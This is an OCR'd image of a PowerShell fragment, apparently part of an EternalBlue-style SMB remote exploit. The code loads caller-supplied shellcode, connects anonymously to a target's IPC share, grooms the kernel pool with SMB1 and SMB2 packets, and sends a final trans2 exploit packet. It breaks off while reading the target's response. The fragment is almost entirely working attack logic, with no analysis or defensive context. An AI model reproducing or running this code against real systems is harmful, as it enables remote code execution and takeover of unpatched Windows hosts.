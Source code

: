     #replace null bytes with your shellcode
    [Byte[]]  $payload = [Byte[]]($Shellcode)

    $shellcode = make_kernel_user_payload($payload)
    $payload_hdr_pkt = make_smb2_payload_headers_packet
    $payload_body_pkt = make_smb2_payload_body_packet($shellcode)

    # # Write-Verbose "Connecting to target for activities"
     $smbheader, $sock = smb1_anonymous_connect_ipc($Target)
     $sock.ReceiveTimeout =2000
     # # Write-Verbose "Connection established for exploitation."
           # Step 2: Create a large SMB1 buffer
           # # Write-Verbose  "all but last fragment of exploit packet"
     smb1_large_buffer $smbheader $sock
           # Step 3: Groom the pool with payload packets, and open/close SMB1 packets

     # initialize_groom_threads(ip, port, payload, grooms)
     $fhs_sock = smb1_free_hole $true
     $groom_socks =@()
     $groom_socks = smb2_grooms $Target $grooms $payload_hdr_pkt $groom_socks

     $fhf_sock = smb1_free_hole $false

     $fhs_sock.Close() | Out-Null

     $groom_socks = smb2_grooms $Target 6 $payload_hdr_pkt $groom_socks

     $fhf_sock.Close() | out-null

     # # Write-Verbose "Running final exploit packet"

     $final_exploit_pkt =  $trans2_pkt_nulled = make_smb1_trans2_exploit_packet $smbheader.tree_id $smbheader.user_id "eb_trans2_exploit"  15

     try{
     $sock.Send($final_exploit_pkt) | Out-Null
      $raw, $exploit_smb_header = smb1_get_response $sock
      # # Write-Verbose ("SMB code: " + [System.BitConverter]::ToString($exploit_smb_header.error_code))

